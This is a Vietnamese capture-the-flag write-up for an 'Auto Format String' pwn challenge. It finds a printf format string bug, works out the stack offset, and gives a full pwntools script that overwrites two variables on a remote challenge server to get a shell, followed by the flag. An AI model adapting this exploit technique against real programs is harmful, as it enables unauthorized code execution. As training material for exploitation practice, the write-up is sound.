



# **Auto Format String - PWN CTF Challenge**

### ***Exploitation***
---

Đầu tiên ta kiểm tra được đây là file ELF 64-bit, và được bật full cơ chế bảo vệ.



Chạy thử chương trình thì thấy dòng báo sử dụng format string để ghi đè giá trị của 2 biến `a` và `b` đã cho với địa chỉ của biến `a` đã cho trước.



Thực hiện xem mã giả bằng IDA thì dễ dàng thấy lỗi format string nó nằm ở hàm `printf(s)`. Chỉ cần ghi đè giá trị của 2 biến `a` và `b` bằng với giá trị random đã cho, ta sẽ có được shell.


Test format string với payload `'a'*8 + '%p-'*15`, có thể thấy buffer mình nhập vào `0x6161616161616161` nằm ở vị trí thứ 10 tính từ đỉnh stack.


Ta sẽ đi tìm địa chỉ của biến b trước khi đi vào ghi đè bằng format string. Bằng IDA, có thể thấy `b_address = a_address - 0x8`.



Ta sử dụng một chức năng rất tiện ích của pwntools là tự tạo payload format string bằng hàm `fmtstr.fmtstr_payload()`. Các bạn có thể tham khảo tại [link](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) sau.

Các tham số được truyền vào là:

- `10` : offset - vị trí thứ 10 từ đỉnh stack (đã phân tích ở trên).
- `writes`: dictionary - bao gồm cặp địa chỉ và giá trị của các biến `a` và `b`.
- `write_size`: ở đây ta ghi đè theo short int (2 bytes) vì các values cần ghi đè rất là lớn.

Mã khai thác được trình bày chi tiết tại [autofmt.py](autofmt.py).

```js
from pwn import *

#p = process('./autofmt')
p = remote('45.122.249.68', 10015)

context.clear(arch = 'amd64')

p.recvline()

a_val = int(p.recvline()[4:-1])
b_val = int(p.recvline()[4:-1])
a_add = int(p.recvline()[11:-1],16)
b_add = a_add - 8

writes = {a_add: a_val, b_add: b_val}

payload = fmtstr.fmtstr_payload(10, writes, write_size='short')

p.sendline(payload)
p.interactive()
```

Thực thi và ta có flaggggggggggg!!!


> **FLAG: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}**


